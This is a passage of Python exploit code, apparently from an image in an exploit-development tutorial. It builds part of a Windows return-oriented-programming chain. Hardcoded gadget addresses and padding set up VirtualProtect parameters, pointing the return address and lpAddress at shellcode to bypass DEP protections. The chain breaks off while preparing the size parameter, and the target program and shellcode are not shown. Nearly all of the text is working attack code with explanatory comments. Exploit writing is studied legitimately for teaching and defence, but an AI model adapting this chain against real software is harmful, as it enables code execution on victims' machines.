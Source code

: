 ```python
# Increase ECX C bytes (ECX right now contains old ESP) to equal address of the VirtualProtect return address place holder
# (no pointers have been created yet)
rop2 = struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)

# Move ECX into EDX, and increase it 4 bytes to reach location of VirtualProtect lpAddress parameter
# (no pointers have been created yet. Just preparation)
# Now ECX contains the address of the VirtualProtect return address
# Now EDX (after the inc edx instructions), contains the address of the VirtualProtect lpAddress location
rop2 += struct.pack ('<L', 0x6ffb6162)  # 0x6ffb6162: mov edx, ecx ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x50505050)  # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)

# Increase EAX, which contains old ESP, to equal around the address of shellcode
# Determine how far shellcode is away, and add that difference into EAX, because
# EAX is being used for calculations
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget

# Replace current VirtualProtect return address pointer (the placeholder) with pointer to shellcode location
rop2 += struct.pack ('<L', 0x6ff63bdb)   # 0x6ff63bdb mov dword [ecx], eax ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the above ROP gadget

# Replace VirtualProtect lpAddress placeholder with pointer to shellcode location
rop2 += struct.pack ('<L', 0x77e942cb)   # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop esi instruction in the last ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for pop ebp instruction in the last ROP gadget

# Preparing the VirtualProtect size parameter (third parameter)
# Changing EAX to equal the third parameter, size (0x300).
# Increase EDX 4 bytes (to reach the VirtualProtect size parameter placeholder.)
# Remember, EDX currently is located at the VirtualProtect lpAddress placeholder.
# The size parameter is located 4 bytes after the lpAddress parameter
# Lastly, point EAX to new EDX
rop2 += struct.pack ('<L', 0x41ad61cc)   # 0x41ad61cc: xor eax, eax ; ret ; (1 found)
```